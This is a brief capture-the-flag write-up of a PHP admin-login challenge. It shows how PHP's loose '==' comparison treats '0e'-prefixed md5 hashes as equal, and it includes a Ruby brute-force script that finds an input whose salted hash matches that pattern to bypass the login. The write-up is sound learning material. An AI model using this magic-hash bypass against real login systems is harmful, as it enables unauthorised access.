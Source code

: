 Description:

>  Students have developed a new admin login technique. I doubt that it's secure, but the hash isn't crackable. I don't know where the problem is...

It was a php 0ep[0-9] bug.

Sans got a very detailed write-ip

https://pen-testing.sans.org/blog/2014/12/18/php-weak-typing-woes-with-some-pontification-about-code-and-pen-testing

It pretty much works this way.

```
$ cat >bahhumhubbug.php
 <?php
  if (md5('240610708') == md5('QNKCDZO')) {  print "Yes, these are the same values.\n"; }
 ?>
$ php bahhumhubbug.php
```

By looking at the original md5, this is how it should go.

> md5(md5($str) . "SALT")

Quick and dirty ruby script.

```
!#/use/bin/ruby

require 'digest/md5'

loop do

	o =  [('a'..'z'),('A'..'Z')].map{|i| i.to_a}.flatten
	answer  =  (0...8).map{ o[rand(o.length)]  }.join

	befsalt = (Digest::MD5.hexdigest(answer)) + "SALT"
	aftersalt = (Digest::MD5.hexdigest(befsalt))

	puts aftersalt + " : " + answer

end
```

This is how i run it.

```
$ ruby sol.rb | grep '^0e[0-9]\{30\}'
```

It returns.
> 0e771843551973161572593952401549 : dLTmTjWe

Back to the web. Login, we got the flag.
